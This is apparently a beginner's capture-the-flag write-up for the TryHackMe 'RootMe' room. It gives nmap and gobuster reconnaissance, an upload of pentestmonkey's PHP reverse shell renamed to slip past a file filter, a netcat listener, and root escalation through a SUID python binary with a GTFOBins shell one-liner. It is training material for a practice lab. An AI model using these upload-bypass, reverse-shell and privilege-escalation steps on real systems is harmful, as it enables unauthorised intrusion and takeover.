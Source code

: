 <!-- TOC -->

- [RootMe](#rootme)
    - [Reconnaissance](#reconnaissance)
    - [Getting a shell](#getting-a-shell)
    - [Privilege escalation](#privilege-escalation)

<!-- /TOC -->

# RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

A ctf for beginners, can you root me?

| Title | IP Address |
| :---- | :---- |
| RootMe | 1*.**.***.*** |

## Reconnaissance

```bash
sudo nmap -A -vv -T4 -oA initial 1*.**.***.*** 
```

> `22/tcp open *** syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

> `80/tcp open http syn-ack ttl 61 Apache httpd 2.*.** ((Ubuntu))`

```bash
gobuster dir -u 1*.**.***.***:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 100
```

> ```
> /u******              (Status: 301) [Size: 316] [--> http://1*.**.***.***/u******/]
> /index.php            (Status: 200) [Size: 616]                                    
> /css                  (Status: 301) [Size: 312] [--> http://1*.**.***.***/css/]    
> /js                   (Status: 301) [Size: 311] [--> http://1*.**.***.***/js/]     
> /p****                (Status: 301) [Size: 314] [--> http://1*.**.***.***/p****/]  
> /server-status        (Status: 403) [Size: 278]
> ```

## Getting a shell

Using the famous __pentestmonkey's PHP reverse shell__

Copy and modify `/usr/share/webshells/php/php-reverse-shell.php`

```php
// php-reverse-shell.php5
$ip = '1*.*.**.**';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

Upload to: `http://1*.**.***.***/p****/`

```bash
nc -lvnp 80
```

Go to: `http://1*.**.***.***/u******/php-reverse-shell.php5`

RHOST:

```bash
find / -type f -name u***.*** 2>/dev/null
```

> `/var/www/u***.***`

```bash
cat /var/www/u***.***
```

> `THM{***_***_*_*****}`

## Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

> `/***/***/******`

Using [GTFOBins](https://gtfobins.github.io):

```bash
p***** -c 'import os; os.execl("/bin/sh", "sh", "-p")'
find / -type f -name r***.***
```

> `/r***/root.txt`

```bash
cat /r***/root.txt
```

> `THM{*********_**********}`
